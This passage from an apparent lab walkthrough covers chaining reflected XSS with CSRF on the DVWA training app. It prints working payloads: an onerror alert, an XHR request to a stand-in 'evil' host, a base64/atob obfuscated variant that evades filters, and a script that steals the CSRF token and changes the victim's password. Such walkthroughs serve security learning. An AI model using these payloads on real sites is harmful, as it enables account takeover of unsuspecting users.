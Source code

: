 ```html
<img src='#' onerror=alert(1) />
```

Even like this, if we just put the previous payload,

```html
<Script> var xmlHttp = new XMLHttpRequest(); var url = "http://evil/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change"; xmlHttp.open("GET", url, false); xmlHttp.send(null); </Script>
```

which has to be base64d and decoded with the `atob` function otherwise we get blocked, it won’t work because of the CSRF code.

```html
<img src='#' onerror="var xmlHttp = new XMLHttpRequest(); xmlHttp.open('GET', atob('aHR0cDovL2V2aWwvdnVsbmVyYWJpbGl0aWVzL2NzcmYvP3Bhc3N3b3JkX25ldz1uZXdwYXNzJnBhc3N3b3JkX2NvbmY9bmV3cGFzcyZDaGFuZ2U9Q2hhbmdl'), false); xmlHttp.send(null);" />
```

The idea then is to first do a GET request, extract the CSRF code, and then send it in the URL. In particular, we want to create the following URL

```html
GET /vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change&user_token=6bed618fc0eaf44857bfa115c4c61a79
```

where `user_token` was obtained from a previous GET request to CSRF change password page. To create such URL we first experiment with JS code that is able to extract the `user_token` from the webpage in order to craft a valid GET request for changing the password of the user with a custom password. The following JS code does the job.

#### Payload

[](https://github.com/dev-angelist/Writeups-and-Walkthroughs/blob/main/dvwa/csrf.md#payload-2)

```js
var newpass = "test"
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://localhost/DVWA/vulnerabilities/csrf/', false);
xhr.onload = function() {
    var doc = new DOMParser().parseFromString(this.responseText, "text/xml");
    var csrf = doc.getElementsByName("user_token")[0].getAttribute("value");
    var xhr2 = new XMLHttpRequest();    
    xhr2.open('GET', `http://localhost/DVWA/vulnerabilities/csrf/?password_new=${newpass}&password_conf=${newpass}&Change=Change&user_token=${csrf}`, false);
    xhr2.send(null);
};
xhr.send(null);
```

We save this payload onto a file called `high.js`.

Now we need to find a way to execute this JS payload onto the victim browser. To avoid the block of the hard challenge of the reflected XSS, the idea is to write a small loader that loads a much bigger javascript file and executes it with eval. We can load this file by creating a malicious server which disables CORS checks. The code for such server is shown below
